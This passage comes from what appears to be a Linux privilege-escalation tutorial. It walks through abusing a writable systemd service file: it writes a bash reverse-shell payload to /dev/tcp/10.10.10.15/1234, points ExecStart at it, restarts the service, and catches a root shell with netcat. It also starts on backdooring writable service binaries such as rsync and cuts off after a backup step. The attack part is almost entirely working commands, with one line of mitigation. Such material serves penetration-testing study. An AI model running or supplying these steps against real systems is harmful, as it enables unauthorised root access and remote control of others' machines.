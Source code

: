 We'll add write permissions to the service so that other users can write to this file:

```shell
sudo chmod o+w /etc/systemd/system/name.service
```

We can create simple payload:

```shell
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.10.15/1234 0>&1' >> /tmp/script.sh
```

We'll add execution permissions:

```shell
chmod +x /tmp/script.sh
```

Modify the `ExecStart` variable which we'll hold the script absolute path:

```shell
ExecStart=/tmp/script.sh
```

Since this service is configured to run as the root user. The payload will be executed under the security context of the root user.

```shell
sudo systemctl restart name.service
```

We'll then receive a connection as the root user:

```shell
nc -lvnp 1234
```

We can mitigate this risk by removing the other writable permissions:

```shell
sudo chmod o-w /etc/systemd/system/name.service
```

# Privilege Escalation via Writable service binaries

If we have **write permissions over binaries being executed by services**, we can change them for backdoors so that when the services get re-executed the backdoors will be executed.

When a binary has writable permissions, we can just replace the binary:

```shell
user@pwn:~$ which rsync
/usr/bin/rsync
user@pwn:~$ ls -l /usr/bin/rsync
-rwxr-xr-x 1 root root 516760 Oct 14  2019 /usr/bin/rsync
user@pwn:~$ sudo chmod o+w /usr/bin/rsync
```

Create a backup of the original binary:

```shell
cp /usr/bin/rsync /tmp/rsync.bak
```
